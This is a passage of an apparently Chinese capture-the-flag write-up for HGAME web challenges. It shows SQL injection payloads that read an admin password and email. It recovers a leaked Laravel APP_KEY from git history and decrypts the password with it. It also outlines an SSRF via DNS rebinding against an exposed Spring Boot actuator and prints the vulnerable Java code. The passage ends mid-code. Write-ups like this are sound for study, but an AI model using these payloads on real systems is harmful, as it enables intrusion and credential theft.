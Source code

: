 注册名称为 `123' union select password from users where id =1#`,  
就可以拿到管理员的加密过的密码  

![](https://i.loli.net/2019/03/21/5c93a611b6a32.png#center)

![](https://i.loli.net/2019/03/21/5c93a63b613bd.png#center)

同理  `123' union select email from users where id =1#`  
拿到 email `admin@hgame.com`  

config/app.php 可以找到加密方式 `'cipher' => 'AES-256-CBC'`,  
秘钥来自环境变量 `env('APP_KEY')`,  
查找 git 的记录, 发现被删掉的 `.env`  
`APP_KEY=base64:9JiyApvLIBndWT69FUBJ8EQz6xXl5vBs7ofRDm9rogQ=`,  
用这个来解密就可以了

```
php > echo openssl_decrypt("EaR\/4fldOGP1G\/aDK8e8u1Aldmxl+yB3s+kBAaoPods=",'AES-256-CBC',base64_decode('9JiyApvLIBndWT69FUBJ8EQz6xXl5vBs7ofRDm9rogQ='),0,base64_decode('rnVrqfCvfJgnvSTi9z7KLw=='));
s:16:"9pqfPIer0Ir9UUfR";
```

登录后就是 flag~


## happyJava

这题有点坑 233, 提示放出来才做出来.  
提示: `spring-boot-actuator`  
查了一下, fuzz /monitor /actuator 等等都没有,  
随缘扫了一下端口找到 `9876` 端口开着 http, 竟然正是这个 spring-boot-actuator  
访问 `http://119.28.26.122:9876/mappings` 就可以拿到所有的路由  

![](https://i.loli.net/2019/03/21/5c93a6119f52e.png#center)

题目是这两个 `/you_will_never_find_this_interface`, `/secret_flag_here`,  
看了一下是 SSRF, 试了一会发现 DNS 请求会请求两次, 可以采用 DNS Rebinding,  
因为后面可以拿 Shell 下题目, 我就直接给大家看题目源码了  

```java
@GetMapping(path={"/you_will_never_find_this_interface"})
public String YouWillNeverFindThisInterface(@RequestParam(value="url", defaultValue="") String url)
{
    if (url.isEmpty()) {
        return "`url` cant be empty!";
    }
try
{
    URL u = new URL(url);
    
    String domain = u.getHost();
    String ip = InetAddress.getByName(domain).getHostAddress();
    if (ip.equals("127.0.0.1")) {
        return "Dont be evil. Dont request 127.0.0.1.";
    }
    URLConnection connection = u.openConnection();
    connection.setConnectTimeout(5000);
    connection.setReadTimeout(5000);
    BufferedReader in = new BufferedReader(new InputStreamReader(connection.getInputStream()));
    StringBuilder sb = new StringBuilder();
    String current;
    while ((current = in.readLine()) != null) {
        sb.append(current);
    }
    return sb.toString();
}
    catch (Exception e)
```